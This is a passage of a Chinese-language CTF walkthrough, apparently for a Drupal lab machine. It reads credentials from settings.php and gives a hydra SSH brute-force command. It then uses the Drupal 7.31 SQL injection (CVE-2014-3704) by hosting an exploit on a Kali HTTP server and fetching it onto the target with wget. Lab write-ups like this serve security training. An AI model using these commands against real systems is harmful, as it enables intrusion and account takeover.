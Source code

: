 ![](https://z3.ax1x.com/2021/04/21/cbMaZV.png)

```bash
ls -la sites/default/files
```

![](https://z3.ax1x.com/2021/04/21/cbMBiF.png)

看看 settings.php 里面有什么

![](https://z3.ax1x.com/2021/04/21/cbMIRH.png)

可以看到 flag2 和数据库的账号密码

> Brute force and dictionary attacks aren't the only ways to gain access (and you WILL need access). What can you do with these credentials?

这里可以用 hydra + John the Ripper 的密码本进行爆破出密码，就不作展示了

```bash
hydra -l flag4 -P /Users/john-1.8.0/run/password.lst ssh://192.168.43.17
```

# falg3

## 思路1 添加管理账号

选择使用 CVE 2014-3704 添加管理账号直接登录，exploit-db：[exp](https://www.exploit-db.com/exploits/34992)

![](https://z3.ax1x.com/2021/04/21/cbYdC6.png)

```bash
cat includes/bootstrap.inc | grep VERSION //版本小于7.31即可用
```

> Drupal 7.31 SQL注入漏洞
>
> Drupal在处理IN语句的时候，要通过 expandArguments 函数来展开数组。由于 expandArguments 函数没有对当前数组中key值进行有效的过滤，给攻击者可乘之机。攻击者通过精心构造的 SQL 语句可以执行任意 PHP 代码。

在 Kali 上开启 HTTP 服务，让靶机从 Kali 上下载 EXP

```bash
sudo python3 -m http.sever 80
```

![](https://z3.ax1x.com/2021/04/21/cb3ytK.png)

```bash
wget http://192.168.43.110/34992.py
```

![](https://z3.ax1x.com/2021/04/21/cb340I.png)

运行脚本创建管理账号
